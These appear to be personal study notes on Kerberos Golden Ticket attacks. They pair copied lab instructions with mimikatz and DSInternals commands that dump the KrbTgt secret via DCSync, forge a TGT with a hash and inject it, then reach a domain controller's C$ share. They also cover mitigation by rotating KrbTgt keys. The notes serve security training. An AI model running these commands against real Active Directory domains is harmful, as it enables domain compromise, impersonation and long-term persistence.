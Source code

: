 
To see : 
[[Kerberos]]
[[PAC - Privilege Attribute Certificate]]

Source : 
https://en.hackndo.com/kerberos-silver-golden-tickets/


The attackers know the secret of the KrbtTgt account 
	• Obtained with a DCSync attack 
	• Or a stolen backup 
They can craft their own tickets 
	• Impersonate any user 
	• For as long as the KrbTgt secret is valid 
	• Spoof group membership in the Privilege Attribute Certificate


#### Extract KrbTgt with DSInternals

```powershell
Get-ADReplAccount -user KrbTgt -domain contoso –server dc01
```


#### Extract KrbTgt with mimikatz

```powershell
lsadump::dcsync /domain:contoso.com /user:administrator
```


#### Forge the ticket

```powershell
kerberos::golden /domain:contoso.com /sid: /rc4: /user:administrator /id:500
```


#### On another system

```powershell
kerberos::ptt C:\ticket.kirbi
```


Golden Ticket Attack mitigation

The KrbTgt secret doesn’t change automatically ▪ It might be the same secret used for the last 10 years ▪ Assumed breach! It's possible you may have been compromised 10 years ago, but didn’t have the means to detect it ▪ Rotate the KrbTgt keys is a good idea ▪ It will help you detect Golden Tickets - if they get used with the wrong key, they will generate a specific event on the DCs ▪ Rotate the key twice ▪ As the previous key is still valid ▪ But not twice in a row as it will invalidate all issued TGT and impact users and applications ▪ Unless you are in security incident and want that ▪ Use the script New-KrbtgtKeys.ps1 to rotate the keys

Rotate KrbTgt keys

.\New-KrbtgtKeys.ps1



(ING) LAB 5 - Domination and persistence

3 Hr 7 Min Remaining

Instructions Resources Help  100%

## Exercise 4 - Perform Golden ticket attacks

Hello **Miss Red**. In this exercise you are going to mess with **Mister Blue** by crafting a TGT for the user and inject it into your own session. For this you are going to use the domain admin credentials of Katrina that you've previously stolen.

1. Log on to **[SRV01](https://labclient.labondemand.com/Instructions/6e093b8a-2f3b-4901-9748-814f5963167c?rc=10#)**. Use the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\katrina.mendoza.adm`|
    |Password|`NeverTrustAny1!`|
    
2. Right click on the Start menu ![2022menu.png](https://labondemand.blob.core.windows.net/content/lab127864/2022menu.png) and click on **Windows PowerShell (Admin)**.
    
3. In the **Administrator: Windows PowerShell** window run `cmd.exe` and then `title Admin console`. You should see the following: ![cmdtitle.png](https://labondemand.blob.core.windows.net/content/lab127864/cmdtitle.png)
    
4. In this renamed console, run the following `cd \Tools\mimikatz\mimikatz` (yes that's twice mimikatz, just because) and then `mimikatz.exe`.
    
5. Run the following to extract the KrbTgt secrets `lsadump::dcsync /user:krbtgt` and explorer the output.
    ![[Pasted image 20231015173257.png]]
6. Now run the following to craft your TGT for **Mister Blue** : `kerberos::golden /user:blue /domain:contoso.com /sid:S-1-5-21-1335734252-711511382-1358492552 /endin:5241600 /aes256:5d8029df60602bf0820ed46831e6ca4eb2a9767ed9fb4f35a741e1ec8bdb2605 /ptt`
    
    - **/sid** is the domain sid
    - **/endin** the the validity time for the TGT (normally it is 600 minutes)
    - **/aes256** is the AES256 hash of the KrbTgt account
    - **/ptt** is the Pass The Ticket parameter which means you will inject the crafted ticket in memory, without having to run another command

![[Pasted image 20231015173320.png]]

1. You can exit **mimikatz** by running `exit` and then run `klist`. Epxlore the output of the **klist** command.
    ![[Pasted image 20231015173338.png]]
   
    
    Let's put it to the test and access a resource.
    
8. You are still in the **Administrator: Admin console**, run the following `dir \\DC01.contoso.com\C$` and then run `klist`.
    
    You should see a new ticket for the **cifs/DC01.contoso.com**. The DC thinks this ticket has been requested by Blue, but in your case, it was requested using your crafted TGT ticket.
    
    And this will work even if blue changes his password. For as long as your TGT is valid for and as long as the KrbTgt key is still the same.
    

